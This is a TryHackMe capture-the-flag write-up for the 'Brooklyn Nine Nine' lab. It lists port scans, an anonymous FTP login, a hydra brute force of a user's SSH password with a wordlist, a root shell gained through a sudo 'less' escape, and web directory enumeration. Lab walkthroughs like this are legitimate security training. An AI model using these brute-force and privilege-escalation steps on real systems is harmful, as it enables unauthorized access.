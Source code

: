 # Brooklyn Nine Nine

**Room Link:** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (4) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

anonymous login worked

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (10) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jake@$VICTIM
Password: 987654321
```

<figure><img src="../../.gitbook/assets/image (8) (6).png" alt=""><figcaption></figcaption></figure>

## **Privlege Escalation**

**Victim**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (11).png" alt=""><figcaption></figcaption></figure>

I tried to see if I could get any more info from the image but I never did.

**Kali**

```
exiftool brooklyn99.jpg 
steghide info brooklyn99.jpg
```

















